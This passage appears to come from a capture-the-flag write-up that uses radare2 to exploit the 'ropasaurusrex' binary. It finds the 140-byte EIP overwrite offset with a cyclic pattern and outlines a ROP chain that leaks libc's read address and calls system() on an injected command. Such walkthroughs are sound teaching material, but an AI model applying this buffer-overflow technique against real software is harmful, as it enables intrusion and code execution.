 Let's generate the pattern:

```
$ ragg2 -P 300 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAZAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFABGABHABIABJABKABLABMABNABOABPABQABRABSABTABUABVABWABZABYABZABaABbABcABdABeABfABgABhABiABjABkABlABmAB
```

We can now run the binary within r2's debugger, and pass the afermentioned
pattern:

```
$ r2 -d ./ropasaurusrex
Process with PID 21534 started...
PID = 21534
r_debug_select: 21534 21534
pid = 21534 tid = 21534
 [0xf77d80d0]> dc
 AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAZAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFABGABHABIABJABKABLABMABNABOABPABQABRABSABTABUABVABWABZABYABZABaABbABcABdABeABfABgABhABiABjABkABlABmAB%
 [+] signal 11 aka SIGSEGV received
 [0x41417641]> dr eip
 eip = 0x41417641
 [0x41417641]> woO 0x41417641
 140
 [0x41417641]>
 
```

Ok, we overwrote EIP with the value "0x41417641", which corresponds
to the offset 140; we have to write 140 bytes of padding before our
actual ropchain.

# Thinking the ROP chain
Remember that we have call to *read* and *write* function from libc in our
binary? This provides us a read/write primitive, great!

We're going to write a 3-stage payload:
1. Leak libc address of read(1) (to get the offset of system(2)), and return to the vulnerable function
2. Read our command, and write it *somewhere*
3. Call system(3) on it
4. Actually send our command

There is also a more elegant solution: instead of returning
to the vulnerable function, we could simply stack pivot like this:
1. Leak libc address of read(1)
2. Read our command and write it *somewhere*
3. Stack-pivot
4. Actually send our command
